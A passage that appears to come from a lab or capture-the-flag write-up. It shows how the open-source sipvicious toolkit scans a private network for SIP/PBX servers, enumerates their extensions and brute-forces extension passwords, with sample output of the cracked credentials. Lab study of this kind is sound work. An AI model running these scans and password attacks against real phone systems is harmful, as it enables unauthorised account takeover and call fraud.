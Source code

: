 ##### Checking the server's capabilities:

![](/assets/img/Pasted image 20240725221132.png)

![](/assets/img/Pasted image 20240726122653.png)

-> Answer: `sipvicious`

Link to open-source software: `https://github.com/EnableSecurity/sipvicious`

##### General usage for `sipvicious`:

```c
1) svmap -> used to find the endpoint that is using PBX

[you@box sipvicious]$ ./svmap 192.168.1.1/24

+--------------------+--------------+
| SIP Device         | User Agent   |
-------------------------------------
| 192.168.1.103:5060 | Asterisk PBX |
+--------------------+--------------+


2) svwar -> used to enumerate the extensions available on the said endpoint using PBX

[you@box sipvicious]$ ./svwar 192.168.1.103

+-----------+----------------+
| Extension | Authentication |
------------------------------
| 123       | reqauth        |
| 100       | reqauth        |
| 101       | noauth         |
+-----------+----------------+


3) svcrack -> cracking the password for extensions that DOES require password:

[you@box sipvicious]$ ./svcrack 192.168.1.103 -u 100 (uses default .txt passwords I guess)

+-----------+----------+
| Extension | Password |
------------------------
| 100       | 100      |
+-----------+----------+


-> For using a customized dictionary file:

[you@box sipvicious]$ ./svcrack 192.168.1.103 -u 123 -d dictionary.txt

+-----------+----------+
| Extension | Password |
------------------------
| 123       | secret   |
+-----------+----------+


4) Following that, you can make use of the credentials by making use of a SIP softphone of your choice.
```
